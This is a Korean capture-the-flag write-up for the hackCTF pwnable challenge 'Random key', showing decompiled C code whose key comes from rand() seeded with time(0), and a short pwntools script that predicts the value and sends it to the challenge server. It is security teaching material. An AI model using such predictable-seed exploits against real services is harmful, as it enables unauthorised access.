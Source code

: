 ```yaml
---
layout: post
title:  "[hackCTF]Random key"
date:   2020-02-18
---
```


hackCTF pwnable 15번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v4; // [rsp+0h] [rbp-10h]
  int v5; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  v4 = 0;
  v3 = time(0LL); // 1970.01.01부터 현재까지 흐르는 초를 v3에 저장한다
  srand(v3); // v3를 기반으로 난수를 초기화한다.
  v5 = rand(); // srand를 바탕으로 난수를 생성한다.
  puts("============================");
  puts(asc_400948);
  puts("============================");
  printf("Input Key : ", 0LL, *(_QWORD *)&v4, v6);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
  {
    puts("Correct!");
    system("cat /home/random/flag"); // flag 출력
    exit(0);
  }
  puts("Nah...");
  exit(0);
}
```
랜덤으로 만들어진 v5와 입력한 값이 같다면 flag를 출력한다. time(0)을 기준으로 v5가 만들어지므로 똑같은 seed로 random 값을 만든다면 v5와 만든 값이 같을 것이다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *
from ctypes import *

p = remote('ctf.j0n9hyun.xyz', 3014)

clib = cdll.LoadLibrary('libc.so.6')
mylib = cdll.LoadLibrary('%s/mylib.so' % os.getcwd())

random = mylib.main()

p.sendline(str(random))

p.interactive()
```

## 결과
![1401](https://drive.google.com/uc?id=1c29YhzXiygH5fvEJk--Dkb5xEoBiBW7d)

## 참고
<a href="http://egloos.zum.com/mcchae/v/11024689">python에서 c 코드 실행하기</a>  
<a href="https://edu.goorm.io/learn/lecture/201/%EB%B0%94%EB%A1%9C-%EC%8B%A4%ED%96%89%ED%95%B4%EB%B3%B4%EB%A9%B4%EC%84%9C-%EB%B0%B0%EC%9A%B0%EB%8A%94-c%EC%96%B8%EC%96%B4/lesson/12382/%EB%82%9C%EC%88%98-%EB%9E%9C%EB%8D%A4-%EB%A7%8C%EB%93%A4%EA%B8%B0">rand 함수</a>
